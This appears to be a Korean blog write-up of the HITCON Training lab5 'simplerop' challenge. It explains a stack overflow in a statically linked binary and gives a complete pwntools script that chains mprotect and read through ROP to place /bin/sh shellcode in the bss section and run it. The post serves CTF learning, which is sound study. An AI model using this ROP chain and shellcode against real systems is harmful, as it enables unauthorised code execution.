 ```yaml
---
layout: post
title: "[HITCON Training] lab5"
comments : true
category : War Game
---
```


# 문제
***

해당 바이너리는 다음과 같이 구성되어 있다.
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("ROP is easy is'nt it ?");
  printf("Your input :");
  fflush(stdout);
  return read(0, &v4, 100);
}
```

근데 어셈블리어를 보면 메인 함수의 prologue에 ```and esp, 0xfffffff0 ``` 명령어가 있는 것을 볼 수 있다. 따라서 실제 v4의 위치는 ebp-0x14가 아니고 직접 확인해야 한다.

또한 해당 바이너리는 statically linked가 되어 있다. (system 함수와 execve 함수 등이 없기 때문에 쉘 코드 삽입을 통해서 exploit을 해야 한다.)  

## exploit 방법
NX  mprotect 함수를 통해 bss 영역에 rwx 권한을 부여하고 해당 영역에 shellcode를 삽입한다. 그리고 shellcode로 jmp하면 exploit을 할 수 있다. 
(bss 영역의 앞 쪽에 stdin 이나 stdout 등으로 쓰이는 변수가 저장되어 있기 때문에 bss + X 에 shellcode를 삽입하는게 좋음)
 
 
# 풀이

```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab5/simplerop"
nop="\x90"*50
shell="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"

p=process(file_path)
p.recvuntil("input :")

mprotect=0x806d870
read=0x806cd50
pppr=0x080b4f39

bss_sec=0x080eb000


pay="A"*32
pay+=p32(mprotect)
pay+=p32(pppr)
pay+=p32(bss_sec)
pay+=p32(0x1000)
pay+=p32(7)
pay+=p32(read)
pay+=p32(bss_sec)
pay+=p32(0)
pay+=p32(bss_sec)
pay+=p32(0x100)


p.send(pay)
time.sleep(0.1)
p.send(nop+shell)
p.interactive()

```

# 알게 된 것
***

#### 1. mmap 함수
void * mmap(void *start, size_t length, int prot, int flags, int fd, off_t offset);
<br/><br/>
mmap 함수는 파일을 메모리에 대응시키는 함수이다. 즉, 메모리를 할당하고 fd에 대응되는 파일을 해당 메모리와 연결시키는 역할을 한다. 만약 fd 값이 -1이면 순수하게 메모리를 할당한다. 

여기서 start에 들어가는 주소는 page size의 배수여야 한다. 또한 이 주소는 할당되지 않은 메모리여야 한다. 

#### 2. mprotect 함수 
int mprotect(void *addr, size_t len, int prot);
<br/><br/>
mprotect의 addr도 mmap 함수와 마찬가지로 page size의 배수여야 한다. 그리고 이 주소는 이미 할당된 메모리의 주소여야 한다. 

#### 3. bss 영역의 주소는 readelf -S [binary] 를 통해 알 수 있다.

